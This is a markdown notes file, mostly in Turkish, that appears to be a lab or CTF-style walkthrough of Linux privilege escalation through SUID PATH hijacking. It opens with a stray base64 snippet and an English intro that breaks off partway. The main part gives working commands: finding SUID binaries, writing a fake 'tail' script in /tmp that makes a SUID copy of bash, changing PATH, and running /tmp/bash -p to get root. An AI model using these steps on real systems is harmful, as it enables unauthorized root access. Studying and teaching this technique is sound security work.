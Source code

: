 ``` bash
echo "abcx==" |  base64 -d 
```

# Linux'ta 2>/dev/null komutu, hata mesajlarını (stderr - standart hata çıkışı) yok saymak için kullanılır.
```bash
2>/dev/null
```
---
# Privilege Escalation: Exploiting SUID Misconfiguration

## Overview
In this guide, we will exploit a misconfigured SUID binary to escalate privileges and gain root access. This method leverages **PATH hijacking** to execute a malicious script with elevated permissions.

---

## Step 1: Finding SUID Binaries
We start by searching for **SUID** binaries on the system:
```bash
find / -type f -perm -u=s 2>/dev/null
```
This command looks for files with the **SUID bit set**, allowing them to run with their owner's privileges.

From our scan, we find an interesting binary:
```bash
/home/joe/live_log
```

---
# Linux Privilege Escalation (PATH Hijacking)  

Bu yazıda, bir Linux sisteminde **SUID ve PATH Hijacking** kullanarak nasıl yetki yükseltme yapılacağını adım adım anlatacağız.  

## 🔒 Amaç  
Sistemdeki bir hatayı kullanarak, **normal kullanıcıdan root yetkisine yükselmek**.  

---

## ✅ 1. Sistemdeki SUID Dosyalarını Bulma  
SUID bitine sahip dosyaları aramak için aşağıdaki komutu çalıştırıyoruz:  
```bash
find / -type f -perm -u=s 2>/dev/null
```
Bu komut, başkalarının çalıştırabildiği ancak **sahibinin yetkileriyle çalışan** dosyaları listeler.  

Burada ilginç bir SUID dosyası bulduk:  
```bash
/home/joe/live_log
```
Bu dosyanın içeriğini analiz ettiğimizde şu komutun çalıştırıldığını görüyoruz:  
```bash
tail -f /var/log/nginx/access.log
```
**Hata:** Burada `tail` komutunun **tam yolu belirtilmemiş!** Yani `/usr/bin/tail` yerine sadece `tail` yazılmış.  
Bu, **PATH değiştirerek exploit edebileceğimiz** bir güvenlik açığı oluşturuyor.  

---

## ⚙️ 2. Sahte tail Dosyamızı Yazalım  
Sistemi kandırıp, bizim oluşturduğumuz **sahte tail** dosyasını çalıştırmasını sağlayacağız.  

1. `/tmp` dizinine giderek sahte bir `tail` dosyası oluşturuyoruz:  
   ```bash
   nano /tmp/tail
   ```
   İçine şu kodu yazıyoruz:  
   ```bash
   #!/bin/bash
   cp /bin/bash /tmp/bash
   chmod +s /tmp/bash
   ```
   Bu kod, **bash dosyasını kopyalar ve ona root yetkisi verir.**  

2. Dosyayı çalıştırılabilir hale getiriyoruz:  
   ```bash
   chmod +x /tmp/tail
   ```

---

## 🛠️ 3. PATH Değiştirerek Sistemi Kandırmak  
Şimdi, **sistem bizim sahte tail dosyamızı çalıştırması için** PATH değiştiriyoruz:  
```bash
export PATH=/tmp:$PATH
```
Böylece sistem **tail** komutunu çalıştırmak istediğinde, önce `/tmp` dizinine bakacak ve **bizim sahte tail dosyamızı çalıştıracak!**  

---

## 🚀 4. Exploiti Çalıştırma  
Şimdi **live_log dosyasını çalıştırıyoruz**:  
```bash
/home/joe/live_log
```
Bu komut normalde `tail` çalıştırmalı ama **bizim sahte tail dosyamızı çalıştırıyor** ve `/tmp/bash` adında bir dosya oluşturup ona **root yetkisi** veriyor!  

---

## 🔐 5. Root Yetkilerini Almak  
Son olarak oluşturduğumuz özel `bash` dosyasını çalıştırıyoruz:  
```bash
/tmp/bash -p
```
Ve artık **root yetkisini aldık!**  
Bunu doğrulamak için:  
```bash
id
```
Çıktı şöyle olmalı:  
```
uid=0(root) gid=0(root) groups=0(root)
```
**Artık sistemde tam kontrolümüz var!** 🎉  

---

## 📑 Özet  
1. Sistemde `live_log` adlı bir SUID dosyası bulduk.  
2. Bu dosya `tail -f` komutunu çalıştırıyor ama tam yolu belirtilmemiş.  
3. `/tmp/tail` adında bir sahte dosya oluşturduk.  
4. PATH değiştirerek sistemin bizim sahte `tail` dosyamızı çalıştırmasını sağladık.  
5. Sahte `tail`, root yetkili bir `bash` oluşturdu.  
6. O **bash**'i çalıştırarak **root olduk!** 🚀  

**Sistem güvenliğini artırmak için,** SUID dosyalarını düzenli kontrol etmeli ve sistemin güvenlik açıklarını kapatmalısınız! ⚠️  




